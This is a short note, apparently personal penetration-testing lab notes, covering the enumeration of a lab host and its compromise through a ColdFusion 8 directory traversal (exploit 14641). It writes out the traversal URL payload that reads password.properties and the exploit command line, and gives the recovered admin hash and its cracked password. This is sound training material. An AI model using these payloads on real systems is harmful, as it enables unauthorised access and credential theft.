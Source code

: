 Enumeration

Enumeration

# NMAP
## TCP Ports
### sudo nmap -Pn -p- 10.11.1.10
![b92e64a728aa058c4b5febbe5a0e419f.png](:/3fc3d4e1e6c14707860014985312cf6c)


# dirb
Non-recursive scan
### dirb http://10.11.1.10 -r
![98dda4b9588d5a0540d259886ea6d092.png](:/0aa9bda96ea74282a6d6e1c835be0437)

Recursive scan on the ColdFusion administrator link
### dirb http://10.11.1.10/CFIDE/administrator/
![5ddc04f72da2ffefece02756d716c513.png](:/174dc093aa6548fcb725b0a3854b76dc)


# Nikto
![eefe619c3d685418d98d47267130281c.png](:/e366bbd24d614977950cdb209ca3efb6)

# Searchsploit
Search for ColdFusion
![2e67ff55f9c36f2d567b76298dfaf193.png](:/0d9450d4cac0424f89c53547e59f07b4)

## Directory Traversal, exploit 14641
After examining the Directory Traversal exploit 14641 (-x switch), download it.
![3e57c568b5e3f1bd024c86bc67f0becb.png](:/59dad30f089a4c7193eef53a2d6610d7)

This is the exploit code for 14641
[14641.py](:/411c5cb7d09b473a9f8c5977f1552776)

The usage for 14641.py
![bc6ddb1276e12e02a04cf96b91e132c3.png](:/cd01eb8a9c07496091bccb7c1424117a)

Within the exploit,a string a working string is specified
### http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
![b2a8db76f9a75cd8989dfc9c467b1455.png](:/7d87a6751b1a43b4a68a442c2e67615b)

Run exploit on the CLI. Ensure to use the target IP
### python 14641.py 10.11.1.10 80 ../../../../../../../../../../ColdFusion8/lib/password.properties%00en
![d69d92157b69f1e4e7eda0c33ca7593d.png](:/d44c5551aae94cb7bbed9c3366ce22c1)

Run the exploit on the browser as well
### http://10.11.1.10/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
![cf8_passwd.png](:/fce1ee7db2b341b7a3b9d4dd8ce48813)

The Administrator has is found: 
### AAFDC23870ECBCD3D557B6423A8982134E17927E

# Crackstation

Crack the ColdFusion 8 'admin' password hash. Password is: pass123
![53f0079156bedae8e1bdb0175a5c8c3e.png](:/b0078eca3c04478caaa5bd23e33a6d7b)



# Other Tools


id: 5e9e5c4b57c0453eaa8507cf6e0651da
parent_id: 993b555b96794a5c936f8949d643080a
created_time: 2020-08-24T23:07:04.764Z
updated_time: 2020-08-25T08:32:46.064Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2020-08-24T23:07:04.764Z
user_updated_time: 2020-08-25T08:32:46.064Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
type_: 1